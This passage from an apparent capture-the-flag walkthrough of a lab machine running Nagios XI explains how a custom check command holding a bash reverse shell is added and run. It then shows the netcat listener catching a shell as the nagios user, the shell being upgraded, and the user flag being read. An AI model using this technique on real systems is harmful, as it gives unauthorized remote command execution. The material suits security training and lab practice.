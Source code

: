 I’ll click “Add new +” and give it a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

![image-20240509075120460](/img/image-20240509075120460.png)

There’s nothing really to run the command here. Back on the Core Config page, I’ll go to “Hosts”:

![image-20240509075336368](/img/image-20240509075336368.png)

Clicking on localhost brings up it’s page:

![image-20240509075409450](/img/image-20240509075409450.png)

There’s a “Check command” dropdown, which I’ll set to “0xdf shell”, and now a “Run Check Command” button appears:

![image-20240509075503583](/img/image-20240509075503583.png)

I’ll click it (and the next button in the popup), and it hangs, but there’s a shell at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.248 53976
bash: cannot set terminal process group (61550): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$

```

I’ll upgrade my shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

nagios@monitored:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
nagios@monitored:~$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
nagios@monitored:~$ 

```

And grab the user flag:

```

nagios@monitored:~$ cat user.txt
a81be4e9************************

```
